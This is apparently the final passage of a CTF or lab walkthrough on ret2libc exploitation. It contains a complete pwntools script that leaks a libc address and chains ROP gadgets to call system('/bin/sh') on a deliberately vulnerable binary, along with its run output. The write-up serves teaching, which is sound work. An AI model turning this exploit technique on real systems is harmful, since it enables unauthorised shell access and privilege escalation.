 Here we're just sending the second payload and cleaning out some unnecessary output. The last line starts the interactive mode, so we can interact with the created shell if everything went well.  

And that's about it. Go write the exploit yourself if you weren't following along step by step. And if you've done everything well, you should have root privileges, so go grab the flag!  

Answer the questions below

```
andy@ubuntu:~$ cat ret2libc.py
#!/usr/bin/env python3
from pwn import *
context.binary = binary = './exploit_me'

elf = ELF(binary)
rop = ROP(elf)

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process()

padding = b'A'*18
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got.gets)
payload += p64(elf.plt.puts)
payload += p64(elf.symbols.main)

p.recvline()
p.sendline(payload)
p.recvline()
leak = u64(p.recvline().strip().ljust(8,b'\0'))
p.recvline()

log.info(f'Gets leak => {hex(leak)}')
libc.address = leak - libc.symbols.gets
log.info(f'Libc base => {hex(libc.address)}')

payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)

p.sendline(payload)
p.recvline()
p.interactive()

andy@ubuntu:~$ python3 ret2libc.py
[*] '/home/andy/exploit_me'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/home/andy/exploit_me'
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/andy/exploit_me': pid 1361
[*] Gets leak => 0x7f1131b78190
[*] Libc base => 0x7f1131af8000
```